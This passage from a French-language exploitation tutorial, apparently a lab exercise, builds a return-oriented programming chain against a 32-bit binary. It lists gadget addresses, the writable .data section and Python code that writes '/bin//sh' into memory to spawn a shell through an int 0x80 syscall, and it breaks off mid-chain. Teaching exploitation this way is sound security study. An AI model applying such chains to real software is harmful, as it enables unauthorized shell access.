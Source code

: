 Avec ces trois gadgets, nous contrôlons les contenus des registres `EDX` et `EAX`, puis nous pouvons déplacer le contenu de `EAX` à l'adresse pointée par `EDX`. Nous écrivons donc ce que nous voulons, là où nous le shouaitons. Parfait !

Nous sommes donc en mesure d'écrire "/bin/sh" quelque part en mémoire, par exemple dans .data qui ne bouge pas malgré l'ASLR.

```bash
$ readelf -S rop | grep " .data "
  [23] .data             PROGBITS        080ea000 0a1000 000f20 00  WA  0   0 32
```

`.data` possède le flag `W` comme **W**ritable et se situe à l'adresse `0x080ea000`.

Enfin, nous devons trouver des gadgets pour contrôler nos registres `EBX` et `ECX` (car nous avons déjà trouvé un gadget pour `EDX` lors du _write-what-where_). Vous avez compris la technique, en voici deux :

```bash
0x080de7ad : pop ecx ; ret
0x080481c9 : pop ebx ; ret
```

Bien sûr, pour pouvoir exécuter tout ça, il faut faire un appel à une instruction `int 0x80`

```bash
0x0806c985 : int 0x80
```

Et bien c'est parfait, nous avons maintenant tous les gadgets en main pour pouvoir effectuer notre ROP. Pour la construction de la chaine, nous allons procéder comme suit :

* Placer "/bin/sh" au début de `.data`
* Placer des octets nuls juste après, pour que la chaine "/bin/sh" se termine par un caractère nul.
* Mettre l'adresse de "/bin/sh" dans `EBX`
* Mettre des `0x00` dans ECX et EDX
* Mettre 11 (0xb) dans `EAX` (numéro du syscall)
* Faire un appel à `int 0x80`


Voici un code python qui prépare le débordement en chainant les gadgets.

```python
p =  pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea000) 		# Dans edx, nous mettons l'adresse du début de .data

p += pack('<I', 0x080b8056) 		# pop eax ; ret
p += '/bin'				# Dans eax, nous mettons la chaine de caractères "/bin"

p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | Ce qui permet d'écrire "/bin" dans .data

p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea004) 		# Dans edx, nous mettons l'adresse de .data + 4 pour prévoir "//sh"

p += pack('<I', 0x080b8056) 		# pop eax ; ret
p += '//sh'				# Nous mettons "//sh" dans eax

p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | Et nous écrivons "//sh" juste après "/bin"

p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea008) 		# Dans edx, nous mettons l'adresse de .data + 8, donc après la chaine de caractères "/bin//sh"

p += pack('<I', 0x08049323) 		# xor eax, eax ; ret

p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | Et on s'assure que cet emplacement contient des 0x00 pour terminer la chaine de caractères
```